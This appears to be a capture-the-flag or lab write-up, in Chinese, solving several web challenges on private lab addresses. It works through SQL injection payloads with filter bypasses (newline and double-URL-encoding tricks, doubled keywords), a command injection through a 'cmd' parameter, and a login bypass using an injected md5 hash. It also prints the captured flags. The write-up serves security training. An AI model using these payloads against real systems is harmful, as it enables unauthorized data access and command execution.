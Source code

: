# http://192.168.100.40:10000/

<img src=".\assets\image-20240901170852913.png" alt="image-20240901170852913" style="zoom:50%;" />

<img src=".\assets\image-20240901171115511.png" alt="image-20240901171115511" style="zoom:50%;" />

```sql
//获取数据库名-->ctftraining
-200'union select database() # 
```

<img src=".\assets\image-20240901171208200.png" alt="image-20240901171208200" style="zoom:50%;" />

```sql
//获取表名-->flag,news,users
-200'union select group_concat(table_name) from information_schema.tables where table_schema=database() #
```

<img src=".\assets\image-20240901171449462.png" alt="image-20240901171449462" style="zoom:50%;" />

<img src=".\assets\image-20240901171531527.png" alt="image-20240901171531527" style="zoom:50%;" />

```sql
//获取字段名-->
-200'union select * from flag#
```

<img src=".\assets\image-20240901172156181.png" alt="image-20240901172156181" style="zoom:50%;" />

<img src=".\assets\image-20240901172237974.png" alt="image-20240901172237974" style="zoom:50%;" />

```cmd
//最终的flag
ctftraining{0cTob3r_1s_B34ut1ful}
```

# http://192.168.100.40:10001/

![image-20240901172518016](.\assets\image-20240901172518016.png)

```sql
http://192.168.100.40:10001/start/vul.php?cmd=ls%20%3Etomato-sh.txt
```

![image-20240901172609179](.\assets\image-20240901172609179.png)

```sql
//访问获取key
http://192.168.100.40:10001/start/tomato-sh.txt
```

![image-20240901172703957](.\assets\image-20240901172703957.png)

# .http://192.168.100.40:10002/

<img src=".\assets\image-20240901172928109.png" alt="image-20240901172928109" style="zoom:50%;" />

```cmd
//先随便登录,查看源码
1.发现有两个需要传的POST参数,name对应用户名,password对应密码
2.还有个md5函数对密码进行加密
3.登录时判断密码是否和加密的md5密码相等,如果相等则输出flag
```

![image-20240901173417570](.\assets\image-20240901173417570.png)

![image-20240901173437516](.\assets\image-20240901173437516.png)

```
//到这里说明思路大致正确的,sql语句报错了
//找到md5在线加解密网站,随便输入一个数字:666
//加密后:fae0b27c451c728867a567e8c1bb4e53 -->(32位小写)
```

![image-20240901173934520](.\assets\image-20240901173934520.png)

```sql
//这里需要注意,admin和md5加密部分需要用''引号
//方法1:使用bp抓包
name=1'union select 1,'admin','fae0b27c451c728867a567e8c1bb4e53' #&pw=666 

//方法2:直接登录
username: 1'union select 1,'admin','fae0b27c451c728867a567e8c1bb4e53' #
password: 666
```

![image-20240901174939667](.\assets\image-20240901174939667.png)

# http://192.168.100.230/sqlexam/examine1.php

<img src=".\assets\image-20240901175057801.png" alt="image-20240901175057801" style="zoom:50%;" />

```
//根据代码,可以知道union和select不能同时使用所以需要使用%0a间隔开
//'也是无法使用,需要用%2527来替换
id=-1%2527union%0aselect 1,2,3 #
```

<img src=".\assets\image-20240901175929802.png" alt="image-20240901175929802" style="zoom:50%;" />

### `查看数据库名`

```sql
//传递post参数
id=-1%2527union%0aselect 1,database(),3 #
```

![image-20240901180050884](.\assets\image-20240901180050884.png)



### `查看表名`

```sql
id=-1%2527union%0aselect 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3 #
```

![image-20240901180831061](.\assets\image-20240901180831061.png)

### `查看flag表的字段`

```sql
//这里指定表的时候需要注意单引号也需要变成%2527使用
id=-1%2527union%0aselect 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=%2527flag%2527),3 #
```

![image-20240901181111497](.\assets\image-20240901181111497.png)

### `获取最终的flag`

```sql
id=-1%2527union%0aselect 1,(select group_concat(Id,flag) from test1.flag),3 #
```

![image-20240901181341139](.\assets\image-20240901181341139.png)

# http://192.168.100.230/sqlexam/examine2.php

### `查看回显点`

```sql
id=-1'uniunionon selselectect 1,2,3 #
```

![image-20240901181706818](.\assets\image-20240901181706818.png)

### `查看数据库名`

```
id=-1'uniunionon selselectect 1,database(),3 #
```

![image-20240901181736720](.\assets\image-20240901181736720.png)

### `查看表名`

```sql
id=-1'uniunionon selselectect 1,(selselectect group_concat(table_name) ffromrom infoorrmation_schema.tables where table_schema=database()),3 #
```

![image-20240901184350207](.\assets\image-20240901184350207.png)

### `获取flag表字段`

```SQL
id=-1'uniunionon selselectect 1,(selselectect group_concat(column_name) ffromrom infoorrmation_schema.columns where table_name='flag'),3 #
```

![image-20240901185253717](.\assets\image-20240901185253717.png)

### `获取flag`

```sql
id=-1'uniunionon selselectect 1,(selselectect group_concat(flag,0x3a,Id) ffromrom test2.flag),3 #
```

![image-20240901185543879](.\assets\image-20240901185543879.png)